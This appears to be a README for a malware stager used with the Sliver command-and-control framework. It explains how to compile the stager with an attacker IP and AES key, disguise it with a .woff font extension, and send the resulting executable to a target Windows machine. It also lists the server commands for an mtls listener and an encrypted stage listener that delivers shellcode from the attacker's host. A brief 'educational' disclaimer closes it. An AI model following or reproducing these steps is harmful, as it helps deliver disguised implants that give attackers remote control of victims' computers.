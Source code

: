 compile this stager with attacker ip and AES key and iv with extension whatever.woff

the exe generated from this will be send to the target windows machine

this stager is to be used with the Sliver Adversary Emulation Framework

https://github.com/BishopFox/sliver

----

sliver server steps



start sliver server

sudo systemctl start sliver

create profile => profiles new --mtls 192.168.122.1 --format shellcode <profile name>

create mtls listener  =>  mtls

create stage listener => stage-listener --url http://<attacker ip>:<listener port> --profile win-shellcode --aes-encrypt-key D(G+KbPeShVmYq3t --aes-encrypt-iv 8y/B?E(G+KbPeShV

use a different port from the other listener. mtls defaults to port 8888

DISCLAIMER

DONT BE AN ASSHOLE AND USE THIS ON PPL. dis is for educational poipoises

